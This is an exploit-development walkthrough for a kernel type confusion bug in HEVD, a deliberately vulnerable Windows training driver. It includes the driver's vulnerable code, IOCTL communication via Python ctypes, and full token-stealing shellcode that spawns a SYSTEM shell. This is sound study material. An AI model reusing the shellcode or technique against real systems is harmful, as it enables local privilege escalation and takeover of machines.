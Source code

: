 ```yaml
---
layout: single
title: HEVD | Windows 7 x86 Kernel Type Confusion
tags: HEVD, kernel exploitation
---
```


Walkthrough for the HEVD Windows Kernel Driver exploitation, exploiting a Kernel level Type Confusion bug vulnerability.

### Exploit development | HEVD exploitation - Windows 7 x86 Kernel Type Confusion

#### Author: FULLSHADE

----

**What are Type Confusion bugs?**

Type Confusion bugs fall into the memory corruption class family, Type Confusion bugs tend to be highly exploitable, and there a lot of in-the-wild instances of Type Confusions being exploited (commonly in Browsers like Chromes V8 Engine).

Type Confusion occurs when a program allocates resources like a pointer or variable using one type, but later on, the program tries to access the same resources using a type that is not compatible with the original setting. This is the Type *confusion*, where the types of not compatible and thus leads to a vulnerability.

So when an application doesn't verify the type of object it's processing and then processes it as some other object, an attacker can abuse this.

----

**Bugs in Kernel-mode**

Since this is dealing with a Kernel-mode driver (HEVD), we will need to utilize an IOCTL and the same `CreateFileA()` and `DeviceIoControl()` functions to establish and obtain communication to a kernel-mode driver.

----

**HEVD vulnerable code analysis**

```c++
#ifdef SECURE
        //
        // Secure Note: This is secure because the developer is properly setting 'Callback'
        // member of the 'KERNEL_TYPE_CONFUSION_OBJECT' structure before passing the pointer
        // of 'KernelTypeConfusionObject' to 'TypeConfusionObjectInitializer()' function as
        // parameter
        //

        KernelTypeConfusionObject->Callback = &TypeConfusionObjectCallback;
        Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
#else
        DbgPrint("[+] Triggering Type Confusion\n");

        //
        // Vulnerability Note: This is a vanilla Type Confusion vulnerability due to improper
        // use of the 'UNION' construct. The developer has not set the 'Callback' member of
        // the 'KERNEL_TYPE_CONFUSION_OBJECT' structure before passing the pointer of
        // 'KernelTypeConfusionObject' to 'TypeConfusionObjectInitializer()' function as
        // parameter
        //

        Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```

(This code is taken from the TypeConfusion.c file from the HEVD source release.)

As far as good and secure practices go, the first example of a secure program functionality show, 

```c++
KernelTypeConfusionObject->Callback = &TypeConfusionObjectCallback;
Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```

It's secure since the code is properly setting the `Callback` function before passing it to `KernelTypeConfusionObject` which is stored in a variable.

```c++
Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```
The vulnerable code is obvious since it's simply not properly setting the `Callback` before it is passing the pointer on to `KernelTypeConfusionObject` 

```c++
NTSTATUS
TypeConfusionObjectInitializer(
    _In_ PKERNEL_TYPE_CONFUSION_OBJECT KernelTypeConfusionObject
)
{
    NTSTATUS Status = STATUS_SUCCESS;

    PAGED_CODE();

    DbgPrint("[+] KernelTypeConfusionObject->Callback: 0x%p\n", KernelTypeConfusionObject->Callback);
    DbgPrint("[+] Calling Callback\n");

    KernelTypeConfusionObject->Callback();

    DbgPrint("[+] Kernel Type Confusion Object Initialized\n");

    return Status;
}
```

Within the `TypeConfusionObjectInitializer` function, there is the `PKERNEL_TYPE_CONFUSION_OBJECT` structure. This 
function will take an object and calls the function pointer which is in the object. 

The structure layout for `PKERNEL_TYPE_CONFUSION_OBJECT` structure is in TypeConfusion.h

```c++
typedef struct _USER_TYPE_CONFUSION_OBJECT
{
    ULONG_PTR ObjectID;
    ULONG_PTR ObjectType;
} USER_TYPE_CONFUSION_OBJECT, *PUSER_TYPE_CONFUSION_OBJECT;

#pragma warning(push)
#pragma warning(disable : 4201)
typedef struct _KERNEL_TYPE_CONFUSION_OBJECT
{
    ULONG_PTR ObjectID;
    union
    {
        ULONG_PTR ObjectType;
        FunctionPointer Callback;
    };
} KERNEL_TYPE_CONFUSION_OBJECT, *PKERNEL_TYPE_CONFUSION_OBJECT;
```
Essentially,

There are two structures, a user-mode object and a kernel-mode one. The user-mode one takes an `ObjectID` and a `ObjectType` as two members, but the kernel-mode structure is a UNION, and a UNION can only hold one member at a time, and since the kernel-mode one (UNION one) has two, the `ObjectType` and the `Callback`. This is where the confusion actually occurs. When the `TriggerTypeConfusion` function doesn't validate that the second member that is passed is the `ObjectType` or `Callback`

![union holds one](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/union-one.png)

You can probably already guess how the attack will play out.

----

**Driver communication & BSOD**

To set up an initial connection to the Device driver (in kernel land), we need an IOCTL. We can use IDA Pro for IOCTL discovery within the driver or check the HEVD source code.

```c++
#define HEVD_IOCTL_TYPE_CONFUSION                                IOCTL(0x808)
```

(from HackSysExtremeVulnerableDriver.h's IOCTL CTL_CODE macro definitions)

This IOCTL can be decoded with python to:

![macro calculation](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/macro.png)

After obtaining an IOCTL (0x222023) from the driver, we can utilize the CreateFileA() function to receive a handler to the drive. 

```python
device_handle = kernel32.CreateFileA("\\\\.\HackSysExtremeVulnerableDriver",
                                        0xC0000000,
                                        0,
                                        None,
                                        0x3,
                                        0,
                                        None)
```

After obtaining and opening a handler to the device, we can use the DeviceIoControl() function combined with our previously obtained IOCTL to send data to the driver.

```python
sending_payload = kernel32.DeviceIoControl(device_handle,
                            0x222023,
                            buffer_pointer,
                            buffer_size,
                            None, 0,
                            byref(c_ulong(), 0))
```

For exploitation puposes, all you need to do is pass a structure who's second member is the address of the function you want to call from kernel-land, in this case thats the pointer and address to our shellcode payload.

----

**Token stealing shellcode payload**

As a payload to obtain NT\Authority System privileges, we will be using the same token-stealing shellcode payload as seen in previous HEVD exploitation posts.

```python

token_stealing_shellcode = (
"\x60"                            # pushad
"\x64\x8b\x80\x24\x01\x00\x00"    # mov eax,[fs:eax+0x124]
"\x8b\x40\x50"                    # mov eax,[eax+0x50]
"\x89\xc1"                        # mov ecx,eax
"\xba\x04\x00\x00\x00"            # mov edx,0x4
"\x8b\x80\xb8\x00\x00\x00"        # mov eax,[eax+0xb8]
"\x2d\xb8\x00\x00\x00"            # sub eax,0xb8
"\x39\x90\xb4\x00\x00\x00"        # cmp [eax+0xb4],edx
"\x75\xed"                        # jnz 0x1a
"\x8b\x90\xf8\x00\x00\x00"        # mov edx,[eax+0xf8]
"\x89\x91\xf8\x00\x00\x00"        # mov [ecx+0xf8],edx
"\x61"                            # popad
"\x31\xC0"                        # NTSTATUS -> STATUS_SUCCESS
"\x5D"                            # pop ebp
"\xC2\x08\x00"                    # ret 8
# cleanup routine
"\x61"                            # popad
"\xc3"                            # ret
)

```

We can add a cleanup routine at the end of our shellcode payload to ensure it doesn't only last one time before the system goes BSOD. This is a POPAD followed by a RET, this will push all the register values to the stack and return to the normal program flow.

----

**Gaining full exploitation & EOP**

Now that we have the IOCTL, both functions to communicate with the driver, a pointer to out shellcode payload, and the proper cleanup function in our assembly shellcode payload, we can run the exploit against HEVD.sys

![EOP](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/typeconfusion_eop.png)

And you are presented with an NT AUTHORITY\SYSTEM spawned command prompt.

----

**Conclusion**

After finding an IOCTL and calculating it's values, we can communicate with a kernel-mode driver (HEVD.sys) and utilize a Type Confusion bug within a certain function in which we pass our IOCTL, buffer pointer, and buffer size to. Unlike the standard stack-based buffer overflow where you send the IOCTL, buffer ID, and the buffer size. Since we sent that pointer, we can take advantage of the Type Confusion bug. Giving us EOP (Escalation Of Privileges) and obtaining an NT AUTHORITY\SYSTEM shell on the system.

The full exploit code can be found [here](https://github.com/FULLSHADE/Windows-Kernel-Exploitation-HEVD/blob/master/HEVD_TypeConfusion.py)

